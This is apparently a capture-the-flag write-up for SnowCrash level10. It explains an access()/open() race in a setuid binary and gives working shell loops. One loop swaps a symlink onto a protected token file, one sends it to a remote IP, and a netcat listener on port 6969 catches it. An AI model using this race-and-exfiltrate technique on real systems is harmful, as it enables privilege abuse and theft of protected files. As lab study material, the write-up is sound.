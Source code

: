 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Let's try: 
```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Let's do a symlink on token to see if it failed because of `token` in the file name:

```bash
level10@SnowCrash:~$ ln -s /home/user/level10/token /tmp/final
level10@SnowCrash:~$ ./level10 /tmp/final localhost
You don't have access to /tmp/final
```
`Level10` seems to check a user's rights, instead of a `strstr`on the name of file.</br>
Let's analyze a bit `level10`:

```bash
level10@SnowCrash:~$ strings level10
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```

`level10` does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

`level10` seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with `level10` program on a host, listen to the host's `6969` port and read the token once `level10` write it.

How do we do we listen to a port?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html

Theorical steps:
- Do a symlink again and again (in a loop)
- launch `level10` in a loop
- Hope that level10 will accept our file with access
- Then the symlink will occure
- Then level10 will open our modified file and write it on port 6969
- listen to the port to see what is happening and maybe catch the token

# Solution

- On a first terminal connected with ssh let's create the file that is going to be the symlink (`readlink -f token` to know the true path of token file), note that we need to suppress and create a new file each time or the symlink will apply on `tmp/final` and will not pass the `access()` check again.
```bash
while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done
```

- On a second ssh terminal let's execute level10 in a loop: 
```bash 
while true; do (./level10 /tmp/final 10.11.200.134); done
```

- On a third terminal, we can listen to the port 6969 with the netcat command: 
```bash
while true; do nc -l 6969 ;done
```
